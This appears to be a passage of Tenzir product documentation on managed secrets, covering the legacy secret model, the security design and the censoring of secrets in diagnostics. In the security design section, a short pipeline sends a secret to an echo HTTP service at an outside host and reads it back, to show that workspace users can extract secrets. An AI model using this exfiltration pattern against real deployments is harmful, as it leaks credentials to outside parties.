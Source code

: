 [Section titled “Legacy Model”](#legacy-model)

You can use the configuration option `tenzir.legacy-secret-model` to change the behavior of the `secret` function so that it returns a `string` instead of a `secret`.

When you use the legacy model, you can only use secrets from the Tenzir Node’s configuration. You cannot use secrets from the Tenzir Platform’s secret store.

We do not recommend enabling this option. It exists as a transition option and will be deprecated and removed in some future version.

## Security Design

[Section titled “Security Design”](#security-design)

We designed secrets to protect against *accidentally* compromising the secret value by revealing it in a log file, showing it in a UI element, or committing it to a code repository as part of a pipeline.

However, anyone with access to a workspace can access secret values if sufficiently motivated.

For example, you could use a simple HTTP API that echoes requests to extract secret values:

```tql
from_http "echo.api.com",
  headers = { leaked: secret("key") },
  metadata_field=metadata
select metadata.headers.leaked
```

```tql
{ leaked: "secret-value" }
```

### Secrets in Diagnostics

[Section titled “Secrets in Diagnostics”](#secrets-in-diagnostics)

We take care not to leak managed secrets in our diagnostic messages. However, numerous of our integrations rely on third party libraries. Those libraries may produce error messages which are outside of our control, but that we forward to the user to help understand an issue.

As a remedy for this, an operator censors the values of managed secrets it has used in all diagnostics. Please note that we only censor an occurrence of the full value, not parts of it. This means that a third party diagnostic forwarded to the user may still contain part of a secret value.

Use smaller secrets

Try and keep your managed secrets to the logical unit that is a secret and use multiple secrets instead of one big one.

For example and S3 URI may contain multiple keys that should be kept as separate secrets, instead of a single one:

```tql
let $url = f"s3://{secret("access-key")}:{secret("secret-key")}@bucket/path/to/file"
```